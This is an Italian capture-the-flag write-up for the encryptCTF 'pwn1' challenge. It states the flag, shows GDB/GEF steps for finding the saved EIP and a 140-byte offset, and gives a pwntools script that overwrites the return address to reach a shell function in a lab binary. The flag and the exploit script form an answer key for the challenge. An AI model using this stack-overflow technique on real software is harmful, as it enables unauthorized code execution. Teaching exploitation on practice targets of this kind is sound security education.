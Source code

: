 # Flag
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}

# Soluzione
1. Analizziamo il file "pwn1.c"
2. Possiamo osservare la presenza di una funzione ``main`` che esegue dell'input e stampa "Hello, [inputDaTastiera]" e di una funzione shell, che invoca ``bash`
3. Il main non chiama mai la funzione bash, quindi l'unica soluzione è quella di sovvrascrivere l'indirizzo di ritorno del main (``$eip``)
4. Con GEF, mettiamo il break ad altezza del leave e runniamo (``break *main+98``, dove 98 rappresenta il numero di byte da inizio main, individuabili tramite disassemble main, e ``run``)<br> ![break](./img/2.png "break")
5. Eseguire il comando ``info frame``: all'interno possiamo trovare il ``saved eip``, ovvero l'indirizzo di ritorno e nel fondo del testo generato è presente anche la posizione nello stack (`saved registers: ... eip at: 0x.....`) <br>![info frame](./img/1.png "info frame")
6. Appuntare l'indirzzo della posizione in stack di ``eip`` (nel nostro caso ``0xffffd49c``)
7. Trovare dove abbiamo scritto la variabile dopo aver runnato il programma fino all'istruzione ``leave`` tramite la visualizzazione dello stack di GEF <br>
![stack](./img/3.png "stack visual") <br> (ATTENZIONE: ``0xffffd404`` non è dove si trova la variabile in cui scriviamo, ma il puntatore ad essa. La variabile, come possiamo vedere sia dal puntatore, che dalla memoria scritta, si trova in ``0xffffd410``, in questo caso)
8. Calcolare la differenza tra l'indirizzo di ``eip`` e la variabile (teoricamente=140)
9. Usare Python per runnare il seguente script <br> 
    ```python
    with process('./pwn1') as r:
        inp=b'A'*140 + p32(0x080484ad) #140 byte + "packaging" con p32 dell'indirizzo di memoria della funzione shell (p32 si occupa anche di gestire la codifica BIG o LITTLE endian) (p32 per ELF32bit, p64 per ELF64bit)
        r.sendline(inp)
        r.interactive()
    ```
10. Runnare lo script e ottenere la FLAG